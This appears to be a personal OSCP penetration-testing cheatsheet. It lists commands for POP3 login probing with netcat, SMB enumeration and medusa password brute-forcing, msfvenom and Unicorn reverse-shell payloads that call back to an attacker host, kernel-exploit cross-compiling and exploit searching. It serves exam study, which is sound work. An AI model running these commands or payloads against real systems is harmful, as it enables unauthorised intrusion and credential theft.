 # Another-OSCP-Cheatsheet
This is my personal OSCP cheatsheet that also "hopefully" would let me pass my exam. Any improvement is welcome :)

## POP3 enum
Enumerate if any user has info:

    for user in <user1> <user2> <user3>.. <userX>; do
    ( echo USER ${user}; sleep 2s; echo PASS abcd; sleep 2s; echo LIST; sleep 2s; echo quit) | nc -nvC <ip> <port>;  done
## SMB enum
**SHARES**

    nmap <ip> --script=smb-enum-shares
**SMB USER/CHECK**

    medusa -M smbnt -h <ip> -U userfile -P passfile -m GROUP:DOMAIN -v 4	
## Windows Payloads
    
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR IP> LPORT=<PORT> -f <format; example: jsp, php..> > file.<format>
## Kernel Cross-Compiling

Really helpful if you are facing an old-school 32-bit box (believe me, there's tons of them in OSCP Labs xd)
Choose the --static option wisely https://stackoverflow.com/questions/8692128/static-option-for-gcc

    gcc ¿--static? -m32 -Wl, --hash-style=both <nombre.c> -o <output>			
## MACRO PAYLOAD
**UNICORN** is a great tool u NEED to use in your OSCP journey https://github.com/trustedsec/unicorn

    python unicorn.py windows/x64/shell_reverse_tcp 11.1.1.151234 macro
    
## Common Exploits
**MS17-010** If you are facing EternalBlue :) https://ivanitlearning.wordpress.com/2019/02/24/exploiting-ms17-010-without-metasploit-win-xp-sp3/				

## Exploit search
Use -m to download the exploit

    searchsploit <service name>
    
